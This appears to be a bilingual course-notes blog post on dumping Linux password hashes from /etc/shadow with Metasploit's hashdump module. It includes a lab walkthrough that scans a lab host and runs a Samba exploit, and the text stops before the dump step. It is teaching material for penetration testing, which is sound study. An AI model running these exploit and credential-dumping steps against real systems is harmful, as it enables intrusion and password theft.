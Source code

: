 ```yaml
---
layout: post
title: "Dumping Hashes With Hashdump"
date: "2023-03-17"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - The Metasploit Framework (MSF)
---
```


# Dumping Hashes With Hashdump
We can dump Linux user hashes with the hashdump post exploitation module.

Linux password hashes are stored in the /etc/shadow file and can only be accessed by the root user or a user with root privileges.

The hashdump module can be used to dump the user account hashes from the /etc/shadow file and can also be used to unshadow the hashes for password cracking with John the Ripper.

# 使用 Hashdump 转储哈希
我们可以使用 hashdump post exploitation 模块转储 Linux 用户哈希。

Linux 密码哈希存储在 /etc/shadow 文件中，只能由 root 用户或具有 root 权限的用户访问。

hashdump 模块可用于从 /etc/shadow 文件中转储用户帐户哈希值，也可用于取消隐藏哈希值以使用 John the Ripper 破解密码。

# Demo: Dumping Hashes With Hashdump（演示：使用 Hashdump 转储哈希）
Hashdump is a post exploitation module that is utilized to dump the hashes of both Windows and Linux operating systems. And typically, when you're utilizing a Meterpreter session on a Windows target, the hashdump command is built right in. However, when we're utilizing a Meterpreter session on a Linux target, we'll need to load up the hashdump post exploitation module manually.

But in essence, the only thing you can do with a Linux hash is either crack it or you just store it for later use. 

```
ifconfig
eth1: 192.101.173.2
```

Target IP Address: 192.101.173.3

```
service postgresql start && msfconsole -q
workspace -a hashdump
setg RHOSTS 192.101.173.3
db_nmap -sV 192.101.173.3
search samba type:exploit
use exploit/linux/samba/is_known_pipename
show options
exploit
pwd
```
